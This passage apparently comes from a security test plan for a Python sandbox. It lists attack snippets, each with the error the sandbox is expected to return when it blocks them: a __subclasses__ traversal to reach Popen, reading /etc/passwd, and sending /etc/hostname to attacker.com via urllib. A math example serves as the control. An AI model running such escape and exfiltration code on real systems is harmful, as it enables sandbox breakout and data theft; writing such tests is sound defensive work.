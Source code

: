 
### 6. Class Hierarchy Traversal

**Attack**:
```python
# Try to access object.__subclasses__() to find subprocess.Popen
for cls in ().__class__.__base__.__subclasses__():
    if 'Popen' in str(cls):
        print(cls)
```

**Expected Result**: ❌ Blocked
```
Error: Access to '__class__' is not allowed
```

---

### 7. File Operations via open()

**Attack**:
```python
with open('/etc/passwd') as f:
    print(f.read())
```

**Expected Result**: ❌ Blocked
```
Error: Use of builtin 'open' is not allowed
```

---

### 8. Network via urllib

**Attack**:
```python
import urllib.request
data = open('/etc/hostname').read()
req = urllib.request.Request('https://attacker.com', data=data.encode())
urllib.request.urlopen(req)
```

**Expected Result**: ❌ Blocked (multiple violations)
1. `Error: Import of 'urllib' is not allowed`
2. `Error: Use of builtin 'open' is not allowed`

---

### 9. Legitimate Math Operations

**Test**:
```python
import math
result = sum([math.sqrt(x) for x in range(100)])
print(f"Result: {result}")
```
